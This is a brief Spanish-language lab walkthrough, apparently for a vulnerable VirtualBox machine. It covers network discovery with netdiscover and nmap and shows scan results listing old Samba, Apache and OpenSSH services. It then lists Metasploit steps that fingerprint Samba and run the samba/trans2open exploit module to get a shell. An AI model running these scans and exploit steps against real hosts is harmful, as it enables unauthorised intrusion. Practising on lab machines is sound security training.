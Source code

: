 # Instalar maquina poner en modo puente

## Buscar la ip

```bash
sudo netdiscover -r 10.0.0.0/16
```
Vemos las ip

```bash
sudo nmap 10.0.4.10
nmap -Pn -sV 10.0.4.10
```

Servicios que nos da son estos:

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:D6:95:0F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

## Descubrir version de Samba

```bash
sudo msfconsole

```

```plaintext
search smb_version

set RHOSTS = 10.0.4.10

run

```

## Tirar plainloads para introducir shell

```bash
sudo msfconsole

```

```plaintext
search samba/trans2open

set RHOSTS = 10.0.4.10

run

```

## Tendria una shell para intrar en la maquina
